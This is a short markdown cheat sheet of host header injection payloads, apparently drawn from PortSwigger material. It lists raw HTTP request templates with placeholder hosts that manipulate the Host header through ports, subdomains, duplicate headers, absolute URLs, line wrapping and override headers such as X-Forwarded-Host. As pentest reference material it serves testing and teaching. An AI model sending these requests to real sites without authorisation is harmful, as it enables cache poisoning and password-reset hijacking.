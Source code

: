 - [Host_Header_Injection](#Host_Header_Injection)
 - [Host_Header_Injection malicious port](#HHI_malicious_port)
 - [Host_Header_Injection malicious subdomain](#HHI_malicious_subdomain)
 - [Host_Header_Injection duplicate host headers](#HHI_duplicate_host_headers)
 - [Host Header Injection absolute URL](#HHI_absolute_URL)
 - [Host Header Injection line wrapping](HHI_line_wrapping)
 - [Host Header Injectio_inject_headers](#HHI_inject_headers)

# Host_Header_Injection

## HHI_malicious_port
```
GET /example HTTP/1.1
Host: vulnerable-website.com:bad-stuff-here
```

## HHI_malicious_subdomain
```
GET /example HTTP/1.1
Host: hacked-subdomain.vulnerable-website.com
```

## HHI_duplicate_host_headers
```
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: bad-stuff-here
```

## HHI_absolute URL
```
GET https://vulnerable-website.com/ HTTP/1.1
Host: bad-stuff-here
```

## HHI_line wrapping
```
GET /example HTTP/1.1
 Host: bad-stuff-here
Host: vulnerable-website.com
```

## Inject headers
```
GET /example HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: bad-stuff-here

example headers
X-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
```
------------------------------------------------------------------------------------------------------------------------------------------------------------------

References
- https://portswigger.net
